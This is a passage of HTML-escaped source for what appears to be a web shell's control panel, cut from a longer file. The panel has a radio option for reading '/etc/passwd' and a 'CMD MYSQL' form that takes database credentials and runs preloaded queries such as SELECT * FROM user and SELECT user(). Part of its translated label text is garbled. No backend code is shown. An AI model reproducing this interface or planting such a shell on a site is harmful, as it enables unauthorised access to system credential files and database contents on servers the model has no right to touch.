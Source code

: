     &lt;font class="style2"&gt;&lt;strong&gt;&lt;font size="4"&gt;/etc/passwd :&lt;/font&gt; &lt;/strong&gt; &lt;/font&gt;
	&lt;strong&gt;
	&lt;input type="radio" name="type" value="passwd" class="style3"&gt;&lt;/strong&gt;&lt;span class="style3"&gt;&lt;strong&gt;
	&lt;/strong&gt;
	&lt;/span&gt;
    &lt;/td&gt;
    &lt;/tr&gt;
    &lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="width: 19%" height="32"&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5" height="32"&gt;&lt;strong&gt;&lt;input type="submit" value="start"&gt;
    &lt;/strong&gt;
    &lt;/td&gt;
    &lt;tr&gt;
&lt;/form&gt;    
    
    &lt;td valign="top" colspan="6" height="26" bgcolor="#151515"&gt;
	&lt;p align="center"&gt;&lt;u&gt;&lt;b&gt;&lt;span id="result_box" class lang="en"&gt;
	&lt;span class="hps"&gt;&lt;font size="4"&gt;If you&lt;/font&gt;&lt;/span&gt;&lt;font size="4"&gt;
	&lt;span class="hps"&gt;want&lt;/span&gt; &lt;span class="hps"&gt;users to&lt;/span&gt;
	&lt;span class="hps"&gt;the server&lt;/span&gt; &lt;span class="hps"&gt;at the end of&lt;/span&gt;
	&lt;/font&gt;&lt;span class="hps"&gt;&lt;font size="4"&gt;script&lt;/font&gt;&lt;/span&gt;&lt;/span&gt;&lt;/b&gt;&lt;/u&gt;&lt;/td&gt;

&lt;form method="POST" target="_blank"&gt;
&lt;strong&gt;
&lt;input type="hidden" name="go" value="cmd_mysql"&gt;
    	&lt;/strong&gt;
    	&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" class="style1" colspan="6" height="29"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;CMD MYSQL&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    				&lt;/tr&gt;
    	&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="width: 19%" height="29"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;user:&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" height="29" width="17%"&gt;&lt;strong&gt;&lt;input name="mysql_l" type="text"&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" height="29" width="10%"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;pass:&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" height="29" width="16%"&gt;&lt;strong&gt;&lt;input name="mysql_p" type="text"&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" height="29" width="12%"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;database:&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" height="29" width="20%"&gt;&lt;strong&gt;&lt;input name="mysql_db" type="text"&gt;&lt;/strong&gt;&lt;/td&gt;
    				&lt;/tr&gt;
					&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="height: 25px; width: 19%;"&gt;
	&lt;strong&gt;&lt;font size="4"&gt;cmd&lt;/font&gt;&lt;font size="4"&gt; :&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5" style="height: 25px"&gt;
	&lt;strong&gt;
	&lt;textarea name="db_query" style="width: 353px; height: 89px"&gt;SHOW DATABASES;
SHOW TABLES user_vb ;
SELECT * FROM user;
SELECT version();
SELECT user();&lt;/textarea&gt;&lt;/strong&gt;&lt;/td&gt;
    	&lt;/tr&gt;
		&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="width: 19%"&gt;&nbsp;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5"&gt;&lt;strong&gt;&lt;input type="submit" value="run"&gt;&lt;/strong&gt;&lt;/td&gt;